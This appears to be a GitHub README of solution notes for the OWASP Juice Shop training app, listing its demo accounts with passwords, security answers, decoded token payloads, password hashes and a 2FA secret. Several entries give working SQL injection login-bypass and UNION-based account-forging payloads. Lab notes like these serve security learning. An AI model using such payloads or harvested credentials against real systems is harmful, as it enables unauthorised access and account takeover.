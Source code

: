 # JuiceShop-UsersData
Users Data in Juice-Shop and Others



admin@juice-sh.op

Password = admin123


{
  "status": "success",
  "data": {
    "id": 1,
    "username": "",
    "email": "admin@juice-sh.op",
    "password": "0192023a7bbd73250516f069df18b500",
    "role": "admin",
    "deluxeToken": "",
    "lastLoginIp": "undefined",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-10-19 13:00:04.308 +00:00",
    "updatedAt": "2020-10-19 13:59:01.826 +00:00",
    "deletedAt": null
  },
  "iat": 1603116006,
  "exp": 1603134006
}
*********************************



mc.safesearch@juice-sh.op

Password = Mr. N00dles

{
  "status": "success",
  "data": {
    "id": 8,
    "username": "",
    "email": "mc.safesearch@juice-sh.op",
    "password": "b03f4b0ba8b458fa0acdc02cdb953bc8",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-29 12:22:43.104 +00:00",
    "updatedAt": "2020-11-29 12:22:43.104 +00:00",
    "deletedAt": null
  },
  "iat": 1606655036,
  "exp": 1606673036
}
**************************************



amy@juice-sh.op

Password = K1f.....................

{
 "status": "success",
  "data": {
    "id": 11,
    "username": "",
    "email": "amy@juice-sh.op",
    "password": "030f05e45e30710c3ad3c32f00de0473",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-05 10:51:02.978 +00:00",
    "updatedAt": "2020-12-05 10:51:02.978 +00:00",
    "deletedAt": null
  },
  "iat": 1607165772,
  "exp": 1607183772
}

***************************************


bjoern.kimminich@gmail.com

but you can use  this email too  => bjoern@owasp.org

Password = bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=

Security answer = Zaya

bjoern@juice-sh.op

Security answer = West-2082 

Zip = 25436 => West-2082 

{
  "status": "success",
  "data": {
    "id": 13,
    "username": "",
    "email": "bjoern@owasp.org",
    "password": "9283f1b2e9669749081963be0462e466",
    "role": "deluxe",
    "deluxeToken": "efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/12.jpg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-22 11:44:09.327 +00:00",
    "updatedAt": "2020-12-22 11:44:09.327 +00:00",
    "deletedAt": null
  },
  "iat": 1608637987,
  "exp": 1608655987
}

****************************************



jim@juice-sh.op

Password = ncc-1701

Security Questiob = Samuel

{
"status": "success",
  "data": {
    "id": 2,
    "username": "",
    "email": "jim@juice-sh.op",
    "password": "e541ca7ecf72b8d1286474fc613e5e45",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-25 14:39:09.207 +00:00",
    "updatedAt": "2020-11-25 14:39:09.207 +00:00",
    "deletedAt": null
  },
  "iat": 1606320235,
  "exp": 1606338235
}

****************************************



bender@juice-sh.op

Password = Stop'n'Drop

You can use for enter = ' or 1=1 and email like('%bender%');--

{
  "status": "success",
  "data": {
    "id": 3,
    "username": "",
    "email": "bender@juice-sh.op",
    "password": "0c36e517e3fa95aabf1bbffc6744a4ef",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-25 14:39:09.207 +00:00",
    "updatedAt": "2020-11-25 14:39:09.207 +00:00",
    "deletedAt": null
  },
  "iat": 1606321399,
  "exp": 1606339399
}


******************************************

chris.pike@juice-sh.op

Enter for = chris.pike@juice-sh.op'--

******************************************


uvogin@juice-sh.op

security answer = Silence of the Lambs

{
  "status": "success",
  "data": {
    "id": 16,
    "username": "",
    "email": "uvogin@juice-sh.op",
    "password": "05f92148b4b60f7dacd04cceebb8f1af",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-25 11:55:39.720 +00:00",
    "updatedAt": "2020-12-25 11:55:39.720 +00:00",
    "deletedAt": null
  },
  "iat": 1608897572,
  "exp": 1608915572
}



********************************************

morty@juice-sh.op

Security answer = Snowball => 5N0wb41L

********************************************


acc0unt4nt@juice-sh.op

SQL ınjection is = ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2020-08-16 14:14:41.644 +00:00' as 'createdAt', '2020-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--

"data": {
    "id": 15,
    "username": "",
    "email": "acc0unt4nt@juice-sh.op",
    "password": "12345",
    "role": "accounting",
    "deluxeToken": "123",
    "lastLoginIp": "1.2.3.4",
    "profileImage": "/assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-08-16 14:14:41.644 +00:00",
    "updatedAt": "2020-08-16 14:33:41.930 +00:00",
    "deletedAt": null
  },
  "iat": 1610024731,
  "exp": 1610042731
}

***********************************************

wurstbrot@juice-sh.op

2FA Token = IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH => generate with authenticator.
